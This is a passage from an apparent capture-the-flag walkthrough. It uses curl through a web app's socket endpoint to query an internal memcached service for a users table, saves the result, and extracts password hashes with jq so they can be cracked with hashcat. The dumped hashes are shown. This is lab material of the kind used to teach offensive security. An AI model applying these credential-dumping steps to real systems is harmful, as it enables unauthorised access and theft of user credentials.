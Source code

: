 
I’ll notice that if I wait even a minute or so, the users table goes empty.
Logging out and back into the port 80 site refreshed it. I’ll save this json
to a file to not have to worry about that anymore.

    
    
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=get users' -H "Cookie: password=secret" | recode html..ascii | sed -n '/VALUE/{:a;n;/END/b;p;ba}' | jq . > users.json
    

#### Get Hashes for hashcat

I’ll make a file of hashes to send to `hashcat` using jq. Right now, I want
all of the values, regardless of the key. To do this, I’ll make use of the
`jq` function `to_entries`.

I’ll use some example data as a test, an object with two keys, “foo” and
“baz”:

    
    
    root@kali# echo '{"foo": "bar", "baz": "buzz"}' | jq .
    {
      "foo": "bar",
      "baz": "buzz"
    }
    

If I send that into `to_entries`, it will create an array, where each item has
a `key` and a `value`:

    
    
    root@kali# echo '{"foo": "bar", "baz": "buzz"}' | jq 'to_entries'
    [
      {
        "key": "foo",
        "value": "bar"
      },
      {
        "key": "baz",
        "value": "buzz"
      }
    ]
    

If I want just the values, I can get them:

    
    
    root@kali# echo '{"foo": "bar", "baz": "buzz"}' | jq 'to_entries | .[].value'
    "bar"
    "buzz"
    

I can take the same approach to get the hashes:

    
    
    root@kali# cat users.json | jq -r 'to_entries | .[].value'
    17906b445a05dc42f78ae86a92a57bbd
    c6ab361604c4691f78958d6289910d21
    e4a4c90483d2ef61de42af1f044087f3
    afbde995441e19497fe0695e9c539266
    d3792794c3143f7e04fd57dc8b085cd4
    bc5f9b43a0336253ff947a4f8dbdb74f
    d7505316e9a10fc113126f808663b5a4
    71f08b45555acc5259bcefa3af63f4e1
    8f61be2ebfc66a5f2496bbf849c89b84
    2c22da161f085a9aba62b9bbedbd4ca7
    ...[snip]...
    